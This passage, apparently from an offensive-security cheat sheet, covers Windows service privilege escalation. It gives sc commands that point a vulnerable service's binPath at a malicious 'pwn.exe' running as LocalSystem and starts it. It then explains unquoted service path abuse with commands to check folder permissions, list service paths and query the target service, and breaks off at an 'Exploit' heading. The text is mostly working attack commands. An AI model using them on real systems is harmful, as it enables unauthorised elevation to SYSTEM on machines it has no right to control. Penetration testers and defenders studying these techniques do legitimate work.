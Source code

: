 Set `binPath` to point to the malicious binary and trigger vulnerable service:

```
PS > cmd /c sc config VulnerableSvc binPath= "pwn.exe" obj= LocalSystem start= demand
PS > cmd /c sc qc VulnerableSvc
PS > cmd /c sc start VulnerableSvc
```



### Unquoted Service Paths

* [https://www.ired.team/offensive-security/privilege-escalation/unquoted-service-paths](https://www.ired.team/offensive-security/privilege-escalation/unquoted-service-paths)

[CreateProcessA](https://docs.microsoft.com/en-us/windows/win32/api/processthreadsapi/nf-processthreadsapi-createprocessa) function parses an unquoted `BINARY_PATH_NAME` like follows:

```
C:\Program Files\Vulnerable Service\Vuln Service.exe
  -> C:\Program.exe
  -> C:\Program Files\Vulnerable.exe
  -> C:\Program Files\Vulnerable Service\Vuln.exe
  -> C:\Program Files\Vulnerable Service\Vuln Service.exe
```

It gives an attacker the ability to inject malicious binary into path to be executed with vulnerable service permissions if she has enough privileges to write into one of these directories:

```
PS > Get-Acl -Path "C:\Program Files\Vulnerable Service\" | fl
```

List services and their binary path:

```
PS > wmic service get name, pathname
```

Query `VulnerableSvc`:

```
Cmd > sc qc VulnerableSvc
[SC] QueryServiceConfig SUCCESS

SERVICE_NAME: VulnerableSvc
        TYPE               : 10  WIN32_OWN_PROCESS
        START_TYPE         : 2   AUTO_START
        ERROR_CONTROL      : 1   NORMAL
        BINARY_PATH_NAME   : C:\Program Files\Vulnerable Service\Vuln Service.exe
        LOAD_ORDER_GROUP   :
        TAG                : 0
        DISPLAY_NAME       : Vulnerable Service
        DEPENDENCIES       :
        SERVICE_START_NAME : LocalSystem
```

Exploit `VulnerableSvc`:
